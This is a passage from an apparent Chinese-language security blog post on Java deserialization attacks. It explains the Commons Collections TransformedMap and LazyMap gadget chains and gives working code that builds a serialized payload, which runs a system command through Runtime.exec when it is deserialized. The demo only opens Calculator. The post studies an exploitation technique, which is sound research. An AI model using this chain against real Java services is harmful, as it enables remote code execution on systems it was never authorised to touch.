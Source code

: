 ```java
        ois.close();
    }
}
```

这段恶意代码本质上就是利用反射调用`Runtime()` 执行了一段系统命令，作用等同于:

```java
((Runtime) Runtime.class.getMethod("getRuntime", null).invoke(null, null)).exec("/bin/sh -c open /Applications/Calculator.app")
```

当然，反序列化时自动执行任意代码还有其他方式，具体可以分析ysoserial源码，这里就不一一叙述。采用`AnnotationInvocationHandler`类也是有条件限制的，是否能成功利用与JDK的版本有关, [http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d](http://hg.openjdk.java.net/jdk8u/jdk8u/jdk/rev/f8a528d0379d)。

{% asset_img 004.png %}

`AnnotationInvocationHandler`类移除了对`memberValue.setValue()`的调用，因此也就不能用`AnnotationInvocationHandler`+`TransformedMap`来构造POP链了。

#### LazyMap

`AnnotationInvocationHandler`构造函数初始化l`LazyMap`对象, 只需要找到一个`memberValues.get(Object)`的方法即可触发该漏洞，可惜的是`readObject()`方法里面并没有这个方法. 在`invoke()`方法中`memberValues.get(Object)`被调用了，如下:

{% asset_img 005.png %}

`AnnotationInvocationHandler`类实现了`InvocationHandler`接口，所以它可以代理其他对象。这里利用这个特点，代理一个`Map`对象，得到`mapProxy`代理对象。然后，将`mapProxy`赋值到`AnnotationInvocationHandler`类中，当其调用`mapProxy`方法时，便可以触发`invoke()`方法。然后，便可以执行`transform`链。

核心代码如下：

```java
Transformer transformerChain = new ChainedTransformer(transforms);
Map tempMap = new HashMap();
Map lazyMap = LazyMap.decorate(tempMap, transformerChain);

String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
constructor.setAccessible(true);

InvocationHandler firstInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
Proxy evilProxy = (Proxy) Proxy.newProxyInstance(Test.class.getClassLoader(), new Class[] {Map.class}, firstInvocationHandler );

InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);

File f = new File("expLazyMap.payload");
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(f));
oos.writeObject(invocationHandlerToSerialize);
oos.flush();
oos.close();
```
